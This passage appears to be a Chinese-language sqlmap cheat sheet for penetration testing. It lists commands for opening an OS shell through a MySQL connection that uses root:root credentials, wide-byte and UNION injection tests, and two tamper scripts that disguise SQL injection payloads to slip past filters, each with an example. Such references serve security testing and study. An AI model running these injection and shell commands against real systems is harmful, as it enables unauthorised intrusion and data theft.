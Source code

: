 ```bash
sqlmap -d "mysql://root:root@192.168.1.1:3306/mysql" --os-shell
```

**宽字节检测**
```bash
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3     # 宽字节检测
```

**union 语句测试**
```bash
--union-cols=UCOLS  测试UNION查询的SQL注入的列的范围
--union-char=UCHAR  用来破解列数的字符
--union-from=UFROM  在UNION查询的FROM部分中使用的表
```

---

## tamper

用法
```
python sqlmap.py -u http://xx.xxx.xx.xx?id=1 --tamper xxx.py
```

### 0eunion.py

> Replaces instances of <int> UNION with <int>e0UNION

使用 `e0UNION` 替换 `UNION`

Requirement:
* MySQL
* MsSQL

Notes:
* Reference: https://media.blackhat.com/us-13/US-13-Salgado-SQLi-Optimization-and-Obfuscation-Techniques-Slides.pdf

```py
>>> tamper('1 UNION ALL SELECT')
'1e0UNION ALL SELECT'
```

### apostrophemask.py

> Replaces apostrophe character (') with its UTF-8 full width counterpart (e.g. ' -> %EF%BC%87)

将 `'` 替换成 UTF-8 urlencoded 的 `%EF%BC%87`

References:
* http://www.utf8-chartable.de/unicode-utf8-table.pl?start=65280&number=128
* https://web.archive.org/web/20130614183121/http://lukasz.pilorz.net/testy/unicode_conversion/
* https://web.archive.org/web/20131121094431/sla.ckers.org/forum/read.php?13,11562,11850
* https://web.archive.org/web/20070624194958/http://lukasz.pilorz.net/testy/full_width_utf/index.phps

```py
>>> tamper("1 AND '1'='1")
'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'
```
